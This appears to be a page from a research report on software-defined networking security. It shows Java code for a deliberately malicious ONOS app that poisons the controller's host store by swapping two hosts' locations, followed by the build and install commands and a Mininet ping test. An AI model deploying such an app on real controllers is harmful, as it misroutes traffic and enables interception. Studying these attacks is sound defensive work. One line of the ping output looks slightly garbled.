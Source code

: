 \documentclass[a4paper,10pt]{memoir}
\begin{document}
The private method \textbf{editHostStore()} is the actual malicious code. The selected victim hosts are the first and the third ones, respectively h1 and h3. Once obtained their location arrays using the private method \textbf{getLocations()}, the locations are swapped: in the locations array of host h1 there will be the location of host h3, while in the locations array of h3 there will be the location of h1. This is achieved by firstly adding the new location to the arrays and then removing the old ones, this is needed because otherwise if the ONOS controller notices that there is an host in the Host Data store without a location, it will completely removes the host from the Host Data Store.
\begin{lstlisting}[language=java,firstnumber=98]
private void editHostStore() {
        HostId h1 = getHost(0).id();
        HostId h3 = getHost(2).id();
        log.info("Malicious Host Tracking App: Selected host {} and host {}", h1, h3);
        Set<HostLocation> locationsH1 = getLocations(h1);
        Set<HostLocation> locationsH3 = getLocations(h3);
        log.info("Malicious Host Tracking App: Locations {} and {}", locationsH1, locationsH3);
        HostLocation newLocationH1 = locationsH3.iterator().next();
        HostLocation newLocationH3 = locationsH1.iterator().next();
        hostStore.appendLocation(h1, newLocationH1);
        hostStore.appendLocation(h3, newLocationH3);
        log.info("Malicious Host Tracking App: Locations {} and {}", getLocations(h1), getLocations(h3));
        hostStore.removeLocation(h1, newLocationH3);
        hostStore.removeLocation(h3, newLocationH1);
        log.info("Malicious Host Tracking App: Locations successfully poisoned: {} and {}", getLocations(h1), getLocations(h3));
    }
\end{lstlisting}

Once successfully compiled the application with the following command and obtained the resulting .oar file,
\begin{lstlisting}[language=bash]
$> mvn package -DskipTests
\end{lstlisting}

it's possible to install and activate the malicious application using the helper utility provided by ONOS maintainers.
\begin{lstlisting}[language=bash]
$> ./tools/package/runtime/bin/onos-app localhost install! onos-malhosttracking-2.0.0-SNAPSHOT.oar
\end{lstlisting}

Before activating the malicious application a pingall test was performed and the following is the output:
\begin{lstlisting}[language=bash]
mininet> pingall
*** Ping: testing ping reachability
h1 -> h2 h3 h4
h2 -> h1 h3 h4
h3 -> h2 h3 h4
h4 -> h1 h2 h3
*** Results: 0% dropped (12/12 received)
\end{lstlisting}
\end{document}
